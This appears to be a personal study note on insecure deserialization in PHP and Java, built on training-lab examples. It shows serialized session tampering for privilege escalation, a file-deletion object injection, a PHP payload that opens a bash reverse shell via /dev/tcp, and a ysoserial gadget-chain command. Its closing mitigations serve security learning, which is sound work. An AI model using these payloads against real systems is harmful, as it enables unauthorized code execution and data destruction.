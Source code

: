 ```yaml
---
title: "Insecure Deserlization"
tags:
    - WEB
    - PHP
    - JAVA
date: "2024-08-9"
thumbnail: "/assets/img/thumbnail/serialization.png"
bookmark: true
---
```

# Serialization
---
 is the process of converting a complex data structures, such as objects and their fields.
Serializing data makes it much simpler to:
- Write complex data to inter-process memory, a file, or a database.
- Send complex data, for example, over a network, between different components of an application, or in an API call.
- Some languages serialize objects into binary formats.
- all of the original object's attributes are stored in the serialized data stream, including any private fields.
- Used for storing and transferring data.
# Insecure deserialization
---
deserialization vulnerabilities can be as easy as changing an attribute in a serialized object , identify and edit interesting attribute values. You can then pass the malicious object into the website via its deserialization process
**Used to**
1- RCE
2- privilege escalation
3- file access
4- DOS attack
5- Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context.
**How to identify?**
 data flow in request
# PHP serialization
---
in code:
```php
$user->name = "carlos";
$user->isLoggedIn = true;
```
after selialization:
```php
`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`
```
- `O:4:"User"` - An object with the 4-character class name `"User"`
- `2` - the object has 2 attributes
- `s:4:"name"` - The key of the first attribute is the 4-character string `"name"`
- `s:6:"carlos"` - The value of the first attribute is the 6-character string `"carlos"`
- `s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string `"isLoggedIn"`
- `b:1` - The value of the second attribute is the boolean value `true`

**Magic methods in PHP**
https://www.php.net/manual/en/language.oop5.magic.php
• you create exploits that pass data into dangerous methods automatically.
• Magic methods are a common feature of OOP like `__destruct()` or `__construct()` .
• Some languages have magic methods that are invoked automatically **during** the deserialization process, For example, PHP's unserialize()method looks for and invokes an object's `__wakeup()`magic method.
<img src="/assets/img/deser/1.png">

**In decoded session**
- `O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}` —>change 0 to 1
- `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:20:"ej9jdijdf9efje9eof9j9f";}`
—> change to `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`
in case the access_token or password doesn’t start with number so we can instead value with 0
`0 == "Example string" // true` in PHP
**Arbitrary object injection in PHP**
We need source code to create and inject a malicious serialized object to do specific function
<img src="/assets/img/deser/2.png">

notice the `CustomTemplate` class contains the `__destruct()`magic method. This will invoke the `unlink()` method on the `lock_file_path` attribute, `unlink()` method to delete file
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`
### scenario
<img src="/assets/img/deser/3.png">

```php
O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}
->
O:18:"PHPObjectInjection":1:{s:6:"inject";s:71:"system('/bin/bash -c \'bash -i >& /dev/tcp/ip/port 0>&1\'');";}
```
# Java Serialization
Example :
1- Item java : have code for class named Item
<img src="/assets/img/deser/4.png">
2- Serialize.java : conatin the serialization logic
<img src="/assets/img/deser/5.png">
- Java objects always begin with the same bytes, which are encoded as `ac ed`in hexadecimal and`rO0` in Base64  which is a standard java serialization format signature.
- Any class that implements the interface `java.io.Serializable` can be serialized and deserialized
- `readObject()`method, which is used to read and deserialize data from an `InputStream`
- In Java deserialization , a readObject()method declared in exactly this way acts as a magic method that is invoked during deserialization

**how to identify it ?**
search for object that it's magic bytes rO0
<img src="/assets/img/deser/6.png">
<img src="/assets/img/deser/7.png">

### **ysoserial (Java Deserialization)**
```bash
java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
# mitigation
---
1- user input should never be deserialized at all.
2- Use a cryptographic library to generate a signature for the object and validate it prior to deserializing the returned object.
3- Don’t use unserialize() function with user input, use JSON functions instead.
---
